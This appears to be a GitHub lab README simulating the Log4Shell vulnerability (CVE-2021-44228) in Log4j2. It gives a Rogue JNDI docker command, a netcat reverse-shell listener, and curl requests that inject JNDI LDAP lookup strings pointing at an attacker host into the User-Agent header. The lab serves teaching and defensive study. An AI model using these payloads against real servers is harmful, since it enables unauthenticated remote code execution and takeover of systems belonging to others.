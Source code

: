 # CVE-2021-44228 Simulation

* Vulnerability allows unauthenticated remote code execution
* An attacker who can control log messages or log message parameters can execute arbitrary code loaded from remote servers when `Message Lookups` is enabled.
* Log4j2 version <=2.14.0

## Set Up Lab Environment

* [Victim Server](../victim/README.md)
* [Attacker Server - Rogue JNDI](../attacker/README.md)


## Initialize Rogue JNDI

The IP address of my attacker VM is `192.168.2.6`. Therefore, I start `Rogue JNDI` with the following command:

```bash
docker run --rm -ti -e PAYLOAD_IP=192.168.2.6 -p 1389:1389 -p 8888:8888 rogue-jndi
```

## Start Netcat Listener

In the same attacker server, start a netcat listener to process the reverse shell:

```bash
nc -lvnp 443
```

## Trigger Vulnerability - API Mode

In the victim's server, run the following commands depending on how you want to retrieve and execute the reverse shell payload:

### Java Class Referenced

```bash
curl -X GET -H 'user-agent: ${jndi:ldap://192.168.2.6:1389/o=reference}' 127.0.0.1:8080/Log4j-2.14.0-SNAPSHOT/api
```

### Deserialized Payload

```bash
curl -X GET -H 'user-agent: ${jndi:ldap://192.168.2.6:1389/o=tomcat}' 127.0.0.1:8080/Log4j-2.14.0-SNAPSHOT/api
```

## References

* https://cve.mitre.org/cgi-bin/cvename.cgi?name=2021-44228
* https://blog.cloudflare.com/inside-the-log4j2-vulnerability-cve-2021-44228/
* https://www.blackhat.com/docs/us-16/materials/us-16-Munoz-A-Journey-From-JNDI-LDAP-Manipulation-To-RCE.pdf
* https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet
* https://github.com/mbechler/marshalsec
* https://codeql.github.com/codeql-query-help/java/java-jndi-injection/